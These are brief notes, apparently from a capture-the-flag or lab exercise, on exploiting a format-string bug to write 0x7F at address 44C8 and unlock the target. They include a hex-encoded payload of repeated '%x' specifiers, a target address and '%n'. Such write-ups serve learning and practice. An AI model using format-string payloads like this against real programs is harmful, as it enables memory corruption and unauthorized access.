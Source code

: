 Obstables
=========
printf before and after test function

condition not in stack

Advantages
==========

Unlimited char on stack

Write with %n

Target
======

Write @ 44C8 => 7F
To unlock auto

Progress
========

              | Pointer to override
              |
"2578" * 31 + "C844" + "41" + "256e"  <----- len(127) == 0x7F
|                             |
| %x                          | %n

